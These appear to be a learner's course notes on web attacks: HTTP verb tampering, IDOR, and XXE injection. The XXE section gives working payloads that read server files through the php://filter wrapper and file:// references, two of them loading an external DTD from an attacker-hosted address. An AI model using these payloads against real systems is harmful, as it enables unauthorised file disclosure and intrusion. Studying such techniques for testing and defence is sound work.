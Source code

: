 # Web Attacks
## HTTP Verb Tampering
- The HTTP protocol works by accepting various HTTP methods as verbs at the beginning of an HTTP request. Depending on the web server configuration, web applications may be scripted to accept certain HTTP methods for their various functionalities and perform a particular action based on the type of the request.
- Verbs include: GET, POST, HEAD, PUT, HEAD, PATCH, OPTIONS, DELETE
- Right click --> change request method in burp
- OPTIONS should send back all allowable verbs
- Some web apps only filter/allow list certain verbs, but HEAD acts very similar to GET but has no response in the body.

## IDOR
- Insecure Direct Object References (IDOR) vulnerabilities are among the most common web vulnerabilities and can significantly impact the vulnerable web application. IDOR vulnerabilities occur when a web application exposes a direct reference to an object, like a file or a database resource, which the end-user can directly control to obtain access to other similar objects. If any user can access any resource due to the lack of a solid access control system, the system is considered to be vulnerable.

- Reminder: Hashes are one way

## Bypassing encoded references
- We might not be able to update/post a users details but can we see them with a GET request?
- In addition to allowing us to view potentially sensitive details, the ability to modify another user's details also enables us to perform several other attacks. One type of attack is modifying a user's email address.
- Another potential attack is placing an XSS payload in the 'about' field, which would get executed once the user visits their Edit profile page, enabling us to attack the user in different ways.

## Intro to XXE
XML External Entity (XXE) Injection vulnerabilities occur when XML data is taken from a user-controlled input without properly sanitizing or safely parsing it, which may allow us to use XML features to perform malicious actions. XXE vulnerabilities can cause considerable damage to a web application and its back-end server, from disclosing sensitive files to shutting the back-end server down, which is why it is considered one of the Top 10 Web Security Risks by OWASP.
- Extensible Markup Language (XML)
- XML Document Type Definition (DTD) allows the validation of an XML document against a pre-defined document structure.
- A DTD can be placed in the file, referenced from a file (its stored separately), or accessib le via URL.
- We can sometimes reference external XML entities with trhe SYSTEM keyword. Or we may also use the PUBLIC keyword instead of SYSTEM for loading external resources, which is used with publicly declared entities and standards, such as a language code (lang="en").

## Local file disclosure
- The first step in identifying potential XXE vulnerabilities is finding web pages that accept an XML user input.
- **Note**: Some web applications may default to a JSON format in HTTP request, but may still accept other formats, including XML. So, even if a web app sends requests in a JSON format, we can try changing the Content-Type header to application/xml, and then convert the JSON data to XML with an online tool. If the web application does accept the request with XML data, then we may also test it against XXE vulnerabilities, which may reveal an unanticipated XXE vulnerability.
- the file we are referencing is not in a proper XML format, so it fails to be referenced as an external XML entity. If a file contains some of XML's special characters (e.g. </>/&), it would break the external entity reference and not be used for the reference. Furthermore, we cannot read any binary data, as it would also not conform to the XML format.

Luckily, PHP provides wrapper filters that allow us to base64 encode certain resources 'including files', in which case the final base64 output should not break the XML format. To do so, instead of using file:// as our reference, we will use PHP's php://filter/ wrapper. With this filter, we can specify the convert.base64-encode encoder as our filter, and then add an input resource (e.g. resource=index.php), as follows:
```
<!DOCTYPE email [
  <!ENTITY company SYSTEM "php://filter/convert.base64-encode/resource=index.php">
]>
```
To output data that does not conform to the XML format, we can wrap the content of the external file reference with a CDATA tag (e.g. <![CDATA[ FILE_CONTENT ]]>). This way, the XML parser would consider this part raw data, which may contain any type of data, including any special characters. fancy way of defining it in the DTD:
```
<!DOCTYPE email [
  <!ENTITY begin "<![CDATA[">
  <!ENTITY file SYSTEM "file:///var/www/html/submitDetails.php">
  <!ENTITY end "]]>">
  <!ENTITY joined "&begin;&file;&end;">
]>
```
Reference an external DTD (one you're locally hosting): 
```
<!DOCTYPE email [
  <!ENTITY % begin "<![CDATA["> <!-- prepend the beginning of the CDATA tag -->
  <!ENTITY % file SYSTEM "file:///var/www/html/submitDetails.php"> <!-- reference external file -->
  <!ENTITY % end "]]>"> <!-- append the end of the CDATA tag -->
  <!ENTITY % xxe SYSTEM "http://OUR_IP:8000/xxe.dtd"> <!-- reference our external DTD -->
  %xxe;
]>
```
**Note**: In some modern web servers, we may not be able to read some files (like index.php), as the web server would be preventing a DOS attack caused by file/entity self-reference (i.e., XML entity reference loop), as mentioned in the previous section.

- NOTE TRIPLE SLASHES
```
<!DOCTYPE email [
  <!ENTITY % begin "<![CDATA["> <!-- prepend the beginning of the CDATA tag -->
  <!ENTITY % file SYSTEM "file:///flag.php"> <!-- reference external file -->
  <!ENTITY % end "]]>"> <!-- append the end of the CDATA tag -->
  <!ENTITY % xxe SYSTEM "http://10.10.14.75:8000/xxe.dtd"> <!-- reference our external DTD -->
  %xxe;
]>
```

